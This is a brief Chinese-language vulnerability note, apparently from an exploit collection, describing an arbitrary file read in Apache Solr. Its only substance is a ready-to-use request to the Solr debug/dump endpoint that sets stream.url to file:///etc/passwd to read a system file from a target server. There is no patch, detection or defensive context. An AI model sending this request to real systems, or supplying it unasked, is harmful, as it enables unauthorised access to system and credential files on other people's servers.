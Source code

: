# apache Solr 存在任意文件读取
访问:`http://ip//solr/db/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd`  (db为存在的应用名)
